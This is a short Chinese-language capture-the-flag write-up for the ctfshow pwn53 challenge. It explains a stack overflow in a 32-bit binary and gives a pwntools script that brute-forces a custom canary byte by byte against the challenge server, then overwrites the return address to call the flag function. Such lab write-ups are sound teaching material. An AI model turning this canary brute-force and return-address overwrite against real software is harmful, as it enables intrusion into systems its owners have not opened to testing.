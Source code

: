 ## ctfshow pwn53

![image-20241118193359939](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241118193359939.png)

这里没有开启栈保护

这个是一个32位的的程序放到ida pro中发现了一个常见的格式

![image-20241118202038577](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241118202038577.png)

![image-20241118202023686](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241118202023686.png)

发现这里发现栈溢出但是由于他会检测s1中的文字因此我们的刚开始溢出不可以加到r这个位置并且所以我们的要先爆破他的canary中的值

exp：
```python
from pwn import *


context.log_level="critical"
canary = b''
for i in range(4):
    for c in range(255):
        io = remote("pwn.challenge.ctf.show", 28151)
        # io = process("/home/fofa/pwn")
        io.sendlineafter('>','-1')
        payload = b'a'*0x20+canary+p8(c)
        io.sendafter("$ ",payload)
        ans = io.recv()
        print(ans)
        if b'Canary Value Incorrect!' not in ans:
            canary +=p8(c)
            break
        else:
            print("ting____")
        io.close()
print(canary)

io = remote("pwn.challenge.ctf.show", 28151)
elf = ELF("/home/fofa/pwn")
flag = elf.sym['flag']
payload = b'a' * 0x20 + canary + p32(0)*4+p32(flag)
io.sendlineafter('>','-1')#这里主要是进行对上一个相应的关闭
io.sendafter('$ ',payload)


io.interactive()
```

可以得到flag

